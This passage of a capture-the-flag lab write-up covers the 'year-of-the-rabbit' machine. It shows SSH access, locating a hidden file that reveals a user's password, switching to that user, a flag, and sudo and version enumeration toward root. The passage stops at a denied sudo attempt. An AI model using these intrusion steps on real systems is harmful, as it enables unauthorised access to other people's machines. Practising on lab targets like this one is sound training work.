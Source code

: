`root@ip-10-10-159-20:~# ssh eli@10.10.138.209`

## escalation
### escalation to gwendoline

```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

`eli@year-of-the-rabbit:/home/gwendoline$ locate s3cr3t`

```
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```

`eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! `

```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

`eli@year-of-the-rabbit:/home$ su gwendoline`

**THM{1107174691af9ff3681d2b5bdb5740b1589bae53}**

### escalation to root

```
Linux year-of-the-rabbit 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13) x86_64 GNU/Linux
```

```
Sudo version 1.8.10p3
```


`gwendoline@year-of-the-rabbit:~$ sudo -l`

```
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

`gwendoline@year-of-the-rabbit:~$ sudo /usr/bin/vi /home/gwendoline/user.txt `

```
Sorry, user gwendoline is not allowed to execute '/usr/bin/vi /home/gwendoline/user.txt' as root on year-of-the-rabbit.
```
